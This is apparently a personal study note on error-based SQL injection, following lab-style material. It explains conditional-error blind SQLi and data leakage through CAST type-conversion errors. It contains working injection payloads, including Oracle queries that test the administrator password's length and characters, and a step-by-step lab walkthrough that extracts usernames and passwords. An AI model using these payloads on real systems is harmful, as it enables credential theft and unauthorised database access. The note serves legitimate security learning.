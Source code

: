 Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts. The possibilities depend on the configuration of the database and the types of errors you're able to trigger:

- You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as the conditional responses we looked at in the previous section.
- You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into visible ones.
---
## Error-based (conditional errors) SQLi with blind context
> (Here when you get an error, that means your query was true)

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in Boolean-based [[Blind SQLi]] won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. 

You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.

> [!example] Error-based blind SQLi
> (This is just an example(Not accurate). Real usage of Oracle DB below this note!)
> Suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
> 
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
> xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
> ```
> 
> These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true:
> 
> - With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error.
> - With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.
> 
> If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.
> 
> Using this technique, you can retrieve data by testing one character at a time:
> 
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> ```

> There are different ways of triggering conditional errors, and different techniques work best on different database types. For more details, see the SQL injection cheat sheet.

Next 2 examples of this are from Oracle DB:

> [!important] Password Length Check
> Checking for password length in DB using Error-based blind SQLi
> ```sql
> 'AND (SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'--
> ```

> [!important] Password Brute Force Checking
>  Checking first letter of password from a specific user
> ```sql
> 'AND (SELECT CASE WHEN SUBSTR(password,1,1)='b' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'--
> ```

Check out [this video](https://youtu.be/HjXUtCKm1FM) by z3nsh3ll to learn more on conditional error based blind SQLi

---
## Extracting sensitive data via verbose SQL error messages

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an `id` parameter:

```http
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

This shows the full query that the application constructed using our input. We can see that in this case, we're injecting into a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload. Commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax.

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one.

You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:

```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:

```http
ERROR: invalid input syntax for type integer: "Example data"
```

This type of query may also be useful if a character limit prevents you from triggering conditional responses.

> [!example] **Example From the Lab**
> We start with
> ```sql
> xyz' AND CAST((SELECT 1) AS int)--
> ```
> 
> This gives error saying AND has to be a boolean expression. So make it one
> ```sql
> xyz' AND 1=CAST((SELECT 1) AS int)--
> ```
> 
> You no longer get the error. Now replace the SELECT query with something we want
> ```sql
> xyz' AND 1=CAST((SELECT username FROM users) AS int)--
> ```
> 
> Now the query gets cut because of character limit. Remove the XYZ characters. (It was a tracking cookie in our case)
> 
> ```sql
> ' AND 1=CAST((SELECT username FROM users) AS int)--
> ```
> Now it gives an error saying it returned more than one row. So limit it to one
> 
> ```sql
> ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
> ```
> 
> Now, the error message **Leaks** the first username in the DB users table. Get the password
> ```sql
> ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
> ```